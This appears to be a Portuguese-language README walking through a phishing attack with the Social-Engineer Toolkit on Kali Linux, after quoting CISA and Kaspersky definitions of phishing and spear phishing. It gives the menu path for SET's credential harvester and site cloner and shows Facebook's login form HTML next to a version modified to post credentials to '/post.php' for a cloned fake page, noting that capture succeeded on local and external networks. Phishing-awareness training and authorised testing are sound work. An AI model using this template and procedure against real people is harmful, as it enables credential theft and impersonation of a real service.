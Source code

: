 
# O que é *Phishing*?

De acordo com a Cybersecurity and Infrastructure Security Agency (CISA):
> "Phishing é um tipo de ataque de engenharia social frequentemente usado para roubar dados de usuário, incluindo credenciais de login e números de cartão de crédito. Isso ocorre quando um atacante, se passando por uma entidade confiável, engana a vítima para abrir um email, mensagem instantânea ou mensagem de texto mal-intencionada que parece legítima. O objetivo é enganar a vítima para revelar informações sensíveis ou clicar em um link mal-intencionado que instala malware ou a direciona para um site fraudulento."

No geral, *phishing* é um tipo de ataque que se enquadra como engenharia social, no qual se visa roubar dados como credenciais. Este ataque pode ocorrer por diversos meios, como SMS, e-mail, links maliciosos, etc.

## Spear Phishing

De acordo com a Kaspersky:
> "Enquanto phishing é um termo geral para ataques cibernéticos realizados por e-mail, SMS ou chamadas telefônicas, alguns podem se perguntar como são chamados ataques de phishing direcionados. A resposta é spear phishing. Em termos mais simples, trata-se de ataques cibernéticos altamente personalizados que visam indivíduos ou empresas específicas. Normalmente, esses ataques são realizados por meio de e-mails de spear phishing que parecem legítimos para o destinatário e os incentivam a compartilhar detalhes confidenciais com o invasor. Embora o objetivo dos ataques de spear phishing geralmente seja roubar informações como credenciais de login ou informações de cartão de crédito, alguns são projetados para infectar dispositivos com malware. Frequentemente, hackers e hacktivistas patrocinados pelo governo são os perpetradores de golpes de spear phishing. No entanto, criminosos cibernéticos individuais também realizam esses ataques com a intenção de perpetrar roubo de identidade ou fraude financeira, manipulando preços de ações, cometendo espionagem ou roubando dados confidenciais para revendê-los a governos, empresas privadas ou outros indivíduos interessados."

## Ferramentas para Testes de Phishing

Para testes em escala, vale ressaltar que existem ferramentas mais apropriadas como o *Gophish*, *Evilginx2*, *HiddenEye*, *King Phisher*, etc. Mas para propósitos conceituais, iremos usar a ferramenta SET (Social-Engineer Toolkit) que já vem disponível em distros como o Kali Linux.

### Ferramentas Utilizadas

- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

### Configurando o Phishing no Kali

1. Acessar o Kali Linux
2. Executar: `sudo su`
3. Iniciar o SET: `setoolkit`
4. Selecionar: "Social-Engineering Attacks"
5. Escolher: "Website Attack Vectors"
6. Selecionar: "Credential Harvester Attack Method"
7. Optar por: "Site Cloner"
8. Inserir o IP local (onde as informações devem ser enviadas)
9. Fornecer a URL do site a ser clonado

![Acesso ao Kali Linux](images/foto_1.png)

*Figura 1: Acesso ao Kali Linux*

![Iniciando o SET](images/foto_2.png)

*Figura 2: Iniciando o Social-Engineer Toolkit*

![Selecionando o tipo de ataque](images/foto_3.png)

*Figura 3: Selecionando o tipo de ataque*

![Escolhendo o vetor de ataque](images/foto_4.png)

*Figura 4: Escolhendo o vetor de ataque*

![Selecionando o método de coleta de credenciais](images/foto_5.png)

*Figura 5: Selecionando o método de coleta de credenciais*

![Optando pelo clonador de site](images/foto_6.png)

*Figura 6: Optando pelo clonador de site*

![Inserindo o IP local](images/foto_7.png)

*Figura 7: Inserindo o IP local*

![Fornecendo a URL do site a ser clonado](images/foto_8.png)

*Figura 8: Fornecendo a URL do site a ser clonado*

## Troubleshooting

O código fonte da página do Facebook é protegido, o que significa que ele não é montado como um único arquivo HTML, mas sim com vários scripts. Assim, nossa ferramenta não consegue clonar o código fonte da página de login do Facebook.

![Erro ao clonar o Facebook](images/foto_9.png)

*Figura 9: Erro ao tentar clonar a página do Facebook*

![Código fonte protegido](images/foto_10.png)

*Figura 10: Código fonte protegido do Facebook*

Uma solução é criarmos nosso próprio template. Para isso, podemos usar a extensão SingleFile (Firefox).

![Extensão SingleFile](images/foto_11.png)

*Figura 11: Extensão SingleFile no Firefox*

![Salvando a página com SingleFile](images/foto_12.png)

*Figura 12: Salvando a página com SingleFile*

Após isso, precisamos modificar algumas partes do código para que fiquem compatíveis com o SET.

![Modificações no código](images/foto_13.png)

*Figura 13: Modificações necessárias no código*

**Código original:**
```html
<form class=_9vtf data-testid=royal_login_form action="/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;next" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="https://www.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login&amp;next">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# ajaxify=/reg/spotlight/ id=u_0_0_6w data-testid=open-registration-form-button rel=async>Create new account</a></div></form>
```

**Código modificado:**
```html
<form class=_9vtf data-testid=royal_login_form action="/post.php" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="#">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# id=u_0_0_6w data-testid=open-registration-form-button>Create new account</a></div></form>
```

Agora devemos selecionar a opção 3 "Custom import" (também precisamos salvar o template como "index.html" dentro do diretório que iremos especificar ao SET).

![Selecionando Custom Import](images/foto_14.png)

*Figura 14: Selecionando a opção Custom Import*

![Especificando o diretório](images/foto_15.png)

*Figura 15: Especificando o diretório do template*

![Confirmação do template](images/foto_16.png)

*Figura 16: Confirmação do template carregado*

![Página clonada em execução](images/foto_18.png)

*Figura 17: Página clonada em execução*

![Captura de credenciais](images/foto_19.png)

*Figura 18: Captura de credenciais bem-sucedida*

![Visualização das credenciais capturadas](images/foto_20.png)

*Figura 19: Visualização das credenciais capturadas*

Foram efetuados testes tanto na rede local quanto em rede externa. 
Vale ressaltar que a eficácia de phishings e engenharia social está ligada à quantidade de informações disponíveis, então também podemos associar a OSINT (Open Source Intelligence).

Fontes:

[Kaspersky - Spear Phishing](https://www.kaspersky.com.br/resource-center/definitions/spear-phishing)
[CISA - Avoiding Social Engineering and Phishing Attacks](https://www.cisa.gov/news-events/news/avoiding-social-engineering-and-phishing-attacks)

